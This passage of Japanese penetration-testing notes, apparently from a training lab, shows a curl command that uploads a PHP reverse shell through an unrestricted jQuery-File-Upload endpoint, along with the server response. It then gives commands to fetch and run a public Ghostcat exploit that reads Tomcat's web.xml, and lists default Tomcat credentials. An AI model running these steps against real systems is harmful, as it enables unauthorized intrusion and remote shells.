 webshell実行できてしかも`nt authority/system`

次はphpリバースシェルをアップロードする

```bash
curl -k -F "files=@php_reverse_shell.php" https://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php         
{"files":[{"name":"php_reverse_shell.php","size":9317,"type":"application\/octet-stream","url":"https:\/\/10.11.1.123\/books\/apps\/jquery-file-upload\/server\/php\/files\/php_reverse_shell.php","deleteUrl":"https:\/\/10.11.1.123\/books\/apps\/jquery-file-upload\/server\/php\/index.php?file=php_reverse_shell.php","deleteType":"DELETE"}]}
```

https://10.11.1.123/books/apps/jquery-file-upload/server/php/files/php_reverse_shell.php

リバースシェルが取得できる。



### 8009 GhostCat

tomcatのコンテンツを読み取り/実行できる脆弱性
※ファイルアップロードの脆弱性と組み合わせが必要

https://github.com/00theway/Ghostcat-CNVD-2020-10487

```bash
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
```

![image-20230223115315490](img/webapplication/image-20230223115315490.png)

脆弱性確認用

```bash
python ajpShooter.py http://10.11.1.209/ 8009 /WEB-INF/web.xml read
```



### Tomcat 8080port

basic認証のデフォルト設定

```
tomcat
s3cret
```
